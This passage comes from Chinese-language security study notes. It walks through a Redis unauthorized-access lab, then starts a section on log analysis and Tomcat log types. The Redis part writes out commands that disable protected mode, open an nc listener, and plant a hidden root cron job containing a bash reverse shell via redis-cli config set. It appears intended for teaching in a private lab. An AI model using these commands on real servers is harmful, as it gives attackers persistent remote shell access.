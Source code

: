 #### 举例：redis未授权访问

环境：redis-6.0.3版本左右,版本太高会报无权设置`dir`

```
#redis.conf设置：
vim /home/kali/redis-stable/redis.conf
bind 192.168.70.3  #启动远程连接
protected-mode yes --> no  #关闭保护模式
将133行解除注释并将enable-protected-configs no --> yes #运行修改配置
:wq 

#重启redis服务
redis-cli shutdown
redis-server /home/kali/redis-stable/redis.conf
ps -ef | grep redis

#或临时启动关闭保护模式
redis-server --protected-mode no

#监听2222端口
nc -lvnp 2222

#连接redis
proxychains4 ./redis-cli -h 192.168.70.3

#redis写隐藏计划任务
set shell "\n\n*/1 **** /bin/bash -i>&/dev/tcp/192.168.70.3/2222 0>&1\n\n"
config set dir /var/spool/cron/
config set dbfilename root
save

#查看隐藏的计划任务
cat /var/spool/cron/root
```

### 日志分析

#### 1、什么是日志?

日志记录一个服务或应用程序在运行过程中发生的事件和活动。

#### 2、日志分类

##### web日志

###### web日志存放路径

windows默认路径:在安装目录下的logs文件夹下

###### tomcat日志

catalina.out、localhost、 manager、 localhost_ access_ log4种格式日志。
